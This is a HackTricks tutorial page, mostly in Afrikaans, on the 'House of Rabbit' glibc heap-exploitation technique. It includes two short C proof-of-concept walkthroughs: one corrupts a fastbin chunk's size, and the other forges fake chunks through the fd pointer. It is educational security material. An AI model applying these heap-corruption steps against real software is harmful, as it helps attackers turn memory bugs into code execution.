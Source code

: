 # House of Rabbit

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Vereistes

1. **Vermogen om die fast bin fd pointer of grootte te verander**: Dit beteken jy kan die voorwaartse pointer van 'n chunk in die fastbin of sy grootte verander.
2. **Vermogen om `malloc_consolidate` te aktiveer**: Dit kan gedoen word deur 'n groot chunk toe te ken of die boonste chunk te meng, wat die heap dwing om chunks te konsolideer.

### Doelwitte

1. **Skep oorvleuelende chunks**: Om een chunk te laat oorvleuel met 'n ander, wat verdere heap manipulasies moontlik maak.
2. **Vervalsing van valse chunks**: Om die toewysingsprogram te mislei om 'n valse chunk as 'n legitieme chunk te behandel tydens heap operasies.

## Stappe van die aanval

### POC 1: Verander die grootte van 'n fast bin chunk

**Doelwit**: Skep 'n oorvleuelende chunk deur die grootte van 'n fastbin chunk te manipuleer.

* **Stap 1: Ken Chunks toe**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
Ons allokeer twee stukke van 0x40 bytes elk. Hierdie stukke sal in die vinnige bin lys geplaas word sodra hulle vrygestel word.

* **Stap 2: Vrygestelde Stukke**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
We maak albei stukke vry en voeg hulle by die fastbin lys.

* **Stap 3: Wysig Stukgrootte**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
We verander die grootte metadata van `chunk1` na 0xa1. Dit is 'n belangrike stap om die allokator te mislei tydens konsolidasie.

* **Stap 4: Trigger `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Allocasie van 'n groot stuk aktiveer die `malloc_consolidate` funksie, wat klein stukke in die vinnige bin saamvoeg. Die gemanipuleerde grootte van `chunk1` veroorsaak dat dit oorvleuel met `chunk2`.

Na konsolidasie oorvleuel `chunk1` met `chunk2`, wat verdere uitbuiting moontlik maak.

### POC 2: Wysig die `fd` wysiger

**Doel**: Skep 'n valse stuk deur die vinnige bin `fd` wysiger te manipuleer.

* **Stap 1: Allokeer Stukke**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Verklaring**: Ons allokeer twee stukke, een kleiner en een groter, om die heap op te stel vir die valse stuk.

* **Stap 2: Skep valse stuk**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
We skryf vals chunk metadata in `chunk2` om kleiner chunks te simuleer.

* **Stap 3: Vry `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Verklaring**: Ons vry `chunk1`, wat dit by die fastbin lys voeg.

* **Stap 4: Wysig `fd` van `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Verklaring**: Ons verander die voorwaartse wysser (`fd`) van `chunk1` om na ons valse chunk binne `chunk2` te wys.

* **Stap 5: Trigger `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### Summary

Die **House of Rabbit** tegniek behels of die grootte van 'n fast bin chunk te verander om oorvleuelende chunks te skep of die `fd` pointer te manipuleer om valse chunks te skep. Dit stel aanvallers in staat om legitieme chunks in die heap te forgeer, wat verskeie vorme van eksploitatie moontlik maak. Om hierdie stappe te verstaan en te oefen, sal jou heap eksploitatievaardighede verbeter.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
